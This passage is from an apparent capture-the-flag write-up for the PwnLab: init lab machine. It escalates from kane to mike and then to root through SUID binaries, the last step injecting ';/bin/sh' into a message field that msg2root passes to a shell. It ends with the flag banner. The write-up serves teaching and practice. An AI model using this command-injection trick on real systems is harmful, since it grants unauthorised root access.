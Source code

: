 Running the binary turns us into mike!

``` 
kane@pwnlab:~$ ./msgmike
./msgmike
mike@pwnlab:~$
```

In mike's home there is another SUID binary, this time owned by root. We can see where this is going..

``` 
-rwsr-sr-x 1 root root 5.3K Mar 17  2016 msg2root
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: pwn incoming
pwn incoming
pwn incoming
```

This binary takes an input and outputs it to the screen, while also appending it to a file in root's home (below line is taken from strings output)

``` 
/bin/echo %s >> /root/messages.txt
```

We can chain commands by passing a string for the echo function and then adding a second command with <code>;</code>:

``` 
./msg2root 
./msg2root 
Message for root: hey;/bin/sh
hey;/bin/sh
hey
# 
```

We're root now! Read the flag and game over:

``` 
# cat flag.txt
cat flag.txt
.-=~=-.                                                                 .-=~=-.
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
(_ ___)  _____                             _                            (_ ___)
(__  _) /  __ \                           | |                           (__  _)
( _ __) | /  \/ ___  _ __   __ _ _ __ __ _| |_ ___                      ( _ __)
(__  _) | |    / _ \| '_ \ / _` | '__/ _` | __/ __|                     (__  _)
(_ ___) | \__/\ (_) | | | | (_| | | | (_| | |_\__ \                     (_ ___)
(__  _)  \____/\___/|_| |_|\__, |_|  \__,_|\__|___/                     (__  _)
( _ __)                     __/ |                                       ( _ __)
(__  _)                    |___/                                        (__  _)
(__  _)                                                                 (__  _)
(_ ___) If  you are  reading this,  means  that you have  break 'init'  (_ ___)
( _ __) Pwnlab.  I hope  you enjoyed  and thanks  for  your time doing  ( _ __)
(__  _) this challenge.                                                 (__  _)
(_ ___)                                                                 (_ ___)
( _ __) Please send me  your  feedback or your  writeup,  I will  love  ( _ __)
(__  _) reading it                                                      (__  _)
(__  _)                                                                 (__  _)
(__  _)                                             For sniferl4bs.com  (__  _)
( _ __)                                claor@PwnLab.net - @Chronicoder  ( _ __)
(__  _)                                                                 (__  _)
(_ ___)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(_ ___)
`-._.-'               
```
